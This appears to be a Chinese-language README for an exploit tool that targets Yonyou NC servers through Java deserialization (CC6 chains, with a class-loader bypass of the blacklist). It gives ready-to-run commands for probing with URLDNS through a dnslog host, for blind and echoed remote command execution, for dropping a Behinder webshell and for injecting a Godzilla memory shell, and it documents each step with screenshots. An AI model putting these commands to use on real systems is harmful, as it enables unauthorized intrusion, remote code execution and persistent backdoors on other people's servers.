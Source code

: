 ## 使用说明

0. 前言

> 无回显的构造链直接使用的是 `CC6`执行命令，回显的构造链使用了`DefiningClassLoader`来绕过默认的黑名单，然后结合 `CC6`构造链进行任意代码执行。
>
> 搭配了接口检测功能和`URLDNS`构造链判断是否存在反序列化。

1. 接口检查功能：`java -jar nc6.5.jar http://127.0.0.1 Check`

![image-20220830130453464](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301305169.png)

2. `URLDNS`构造链探测：`java -jar nc6.5.jar http://127.0.0.1 urldns http://123.dnslog.cn`

![image-20220830130719543](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301308996.png)

![image-20220830130803567](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301308672.png)

![image-20220830130825740](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301308210.png)

3. 无回显命令执行：`java -jar yonyouNCTools.jar http://192.168.222.130 blind calc.exe`

![image-20220830131753990](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301344245.png)

![image-20220830131804456](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301344727.png)

![image-20220830131717673](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301344807.png)



4. 回显命令执行：`java -jar yonyouNCTools.jar http://192.168.222.130 Execute`，通过 `Header`头传递命令。

![image-20220830131939577](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301344557.png)

![image-20220830132049947](vx_images/image-20220830132049947.png)

5. 落地 `webshell`：`java -jar yonyouNCTools.jar http://192.168.222.130 UploadShell "C:\Users\Administrator\Pictures\Camera Roll\1.jsp"`

> 此处如果使用 `java1.8`运行，固定落地一个天蝎的 `webshell`，路径为：`http://127.0.0.1/eozZEwBb.jsp`，如果使用的是 `java1.7`运行，会重新动态编译，可以落地自定义的 `webshell`，路径随机。

![image-20220830132251387](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301344968.png)

![image-20220830132618115](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301344709.png)

![image-20220830132628494](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301344610.png)

![image-20220830132824210](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301345567.png)

> 通过 `java1.7`落地自定义的 `webshell`，因为用到了动态编译，所有需要使用 `jre`下的 `java.exe`运行，否则动态编译失败。动态编译过程会提示使用了过时的 `API`，没有影响。

![image-20220830133136817](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301345461.png)

![image-20220830133235224](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301345855.png)

![image-20220830133344521](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301345605.png)

![image-20220830133403240](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301345458.png)

![image-20220830133536619](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301345471.png)



6. 注入内存马：`java -jar yonyouNCTools.jar http://192.168.222.130 MemoryShell`，注入的是一个 `valve-Godzilla`内存马。

![image-20220830133637610](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301345367.png)

![image-20220830133805235](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301345125.png)

![image-20220830133847158](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301346838.png)

![image-20220830134116523](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301346986.png)

